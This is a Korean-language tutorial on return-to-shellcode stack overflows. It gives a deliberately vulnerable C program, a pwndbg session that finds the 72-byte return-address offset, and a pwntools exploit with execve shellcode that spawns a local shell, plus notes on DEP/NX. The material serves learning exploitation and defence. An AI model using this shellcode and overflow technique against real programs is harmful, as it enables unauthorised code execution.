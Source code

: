 # [-] Return 2 Shellcode
:= Return address 영역에 **Shellcode**가 저장된 주소로 써, Shellcode를 호출하는 방식이다.

## CALL & RET instruction
* Return to Shellcode 를 이해하기 위해 CALL, RET 명령어에 대한 이해가 필요하다.
  1. CALL 명령어는 return address 를 stack 에 저장하고, 피연산자 주소로 이동 (push ret addr, jmp <op>)
  2. RET 명령어는 pop $eip, jmp $eip 라고 생각하면 편함.
  3. 즉, stack 영역에 저장된 return address 값을 변경할 수 있다면 프로그램의 흐름을 변경할 수 있음.

## Permissions in memory
* Return2Shellcode 를 이해하기 위해 Memory 권한에 대한 이해가 필요.
  * 프로그램에서 사용되는 메모리 영역은 모두 권한들이 설정되어 있음. 
    1. read(r) : 메모리 영역의 값을 읽을 수 있음.
    2. write(w) : 메모리 영역에 값을 저장 할 수 있음.
    3. excute(x) : 메모리 영역에서 코드를 실행 할 수 있음.
  * GCC는 기본적으로 DEP 가 적용되기 때문에 코드가 저장된 영역에만 실행권한이 설정됨.
  * => 데이터가 저장되는 영역에는 실행 권한이 설정되지 않음.
  * 즉, shellcode 를 실행하기 위해 shellcode가 저장된 영역은 execute 권한이 설정되어 있어야 함.
* DEP 를 해제하기 위해 GCC 옵션으로 "-z execstack" 를 추가해야 함.
  * 해당 옵션으로 인해 데이터 저장 영역에도 excute 권한이 설정됨.
  * 즉, stack 에 저장된 shellcode를 실행 할 수 있음.

### Proof of Concept
* Return to Shellcode를 확인하기 위해 다음 코드를 사용
  * main() 함수는 vuln() 함수를 호출
  * vuln() 함수는 read() 함수를 이용해 사용자로부터 100개의 문자를 입력받음.
    * :=> 여기에서 취약점 발생. buf 변수의 크기는 50 byte이기 때문에 stack overflow가 발생
```c
// poc.c
#include <stdio.h>
#include <unistd.h>

void vuln() {
  char buf[50];
  printf("buf[50] address : %p\n", buf);
  read(0, buf, 100);
}

void main() {
  vuln();
}
```

```gdb
Reading symbols from ./poc...(no debugging symbols found)...done.
pwndbg> disas vuln
Dump of assembler code for function vuln:
   0x000000000000068a <+0>:     push   rbp
   0x000000000000068b <+1>:     mov    rbp,rsp
   0x000000000000068e <+4>:     sub    rsp,0x40
   0x0000000000000692 <+8>:     lea    rax,[rbp-0x40]
   0x0000000000000696 <+12>:    mov    rsi,rax
   0x0000000000000699 <+15>:    lea    rdi,[rip+0xc4]        # 0x764
   0x00000000000006a0 <+22>:    mov    eax,0x0
   0x00000000000006a5 <+27>:    call   0x550 <printf@plt>
   0x00000000000006aa <+32>:    lea    rax,[rbp-0x40]
   0x00000000000006ae <+36>:    mov    edx,0x64
   0x00000000000006b3 <+41>:    mov    rsi,rax
   0x00000000000006b6 <+44>:    mov    edi,0x0
   0x00000000000006bb <+49>:    call   0x560 <read@plt>
   0x00000000000006c0 <+54>:    nop
   0x00000000000006c1 <+55>:    leave  
   0x00000000000006c2 <+56>:    ret    
End of assembler dump.
pwndbg> b *(vuln)
Breakpoint 1 at 0x68a
pwndbg> b *(vuln+49)
Breakpoint 2 at 0x6bb
pwndbg> b *(vuln+56)
Breakpoint 3 at 0x6c2
pwndbg> r
Starting program: /home/pwn/exploit/shell/lazenca/return_to_shellcode/poc 
...
────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────
00:0000│ rsp  0x7fffffffe9b8 —▸ 0x5555555546d1 (main+14) ◂— nop     # 이 친구가 return address 임.
01:0008│ rbp  0x7fffffffe9c0 —▸ 0x5555555546e0 (__libc_csu_init) ◂— push   r15
02:0010│      0x7fffffffe9c8 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax   
03:0018│      0x7fffffffe9d0 ◂— 0x1
04:0020│      0x7fffffffe9d8 —▸ 0x7fffffffeaa8 —▸ 0x7fffffffece1 ◂— '/home/pwn/exploit/shell/lazenca/return_to_shellcode/p
oc'
05:0028│      0x7fffffffe9e0 ◂— 0x100008000
06:0030│      0x7fffffffe9e8 —▸ 0x5555555546c3 (main) ◂— push   rbp
07:0038│      0x7fffffffe9f0 ◂— 0x0 

pwndbg> c
Continuing.
buf[50] address : 0x7fffffffe970
────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────
 ► 0x5555555546bb <vuln+49>    call   read@plt <read@plt>
        fd: 0x0
        buf: 0x7fffffffe970 —▸ 0x7fffffffe9d8 —▸ 0x7fffffffeaa8 —▸ 0x7fffffffece1 ◂— '/home/pwn/exploit/shell/lazenca/retu
rn_to_shellcode/poc'
        nbytes: 0x64
        ...
────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────
00:0000│ rax rsi rsp  0x7fffffffe970 —▸ 0x7fffffffe9d8 —▸ 0x7fffffffeaa8 —▸ 0x7fffffffece1 ◂— '/home/pwn/exploit/shell/laz
enca/return_to_shellcode/poc' # read() 의 2 번째 인자. 출력값에서 볼 수 있듯이 buf 주소이다.
01:0008│              0x7fffffffe978 ◂— 0xf0b5ff  
02:0010│              0x7fffffffe980 ◂— 0x1
03:0018│              0x7fffffffe988 —▸ 0x55555555472d (__libc_csu_init+77) ◂— add    rbx, 1
04:0020│              0x7fffffffe990 —▸ 0x7ffff7de59f0 (_dl_fini) ◂— push   rbp
05:0028│              0x7fffffffe998 ◂— 0x0
06:0030│              0x7fffffffe9a0 —▸ 0x5555555546e0 (__libc_csu_init) ◂— push   r15
07:0038│              0x7fffffffe9a8 —▸ 0x555555554580 (_start) ◂— xor    ebp, ebp

pwndbg> p/d 0x7fffffffe9b8 - 0x7fffffffe970
$1 = 72  # (return address 의 위치) - (buf 변수의 위치) = 72 byte => 72개 이상 입력시, return address 덮어써짐.
```

## Exploit
* 앞에서 확인한 내용을 바탕으로 exploit 코드를 짤 수 있다.
```python
from pwn import *

p = process('./poc')
p.recvuntil('buf[50] address : ')
stackAddr = p.recvuntil('\n')
stackAddr = int(stackAddr, 16)

exploit = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
exploit += "\x90" * (72 - len(exploit))
exploit += p64(stackAddr)
p.send(exploit)
p.interactive()
```

```bash
pwn@chown-1~/exploit/shell/lazenca/return_to_shellcode$python ./exploit.py 
[+] Starting local process './poc': pid 5076
[*] Switching to interactive mode
$ id
uid=1002(pwn) gid=1003(pwn) groups=1003(pwn),4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugde
v),104(lxd),111(netdev),1000(ubuntu),1001(google-sudoers)
$  

```

## Protection
* Memory 영역에서 코드가 실행되는 것을 차단하기 위해 NX Bit(DEP)를 적용 할 수 있다.
* 자세한 내용은 https://www.lazenca.net/pages/viewpage.action?pageId=1147904 에서 확인하자.
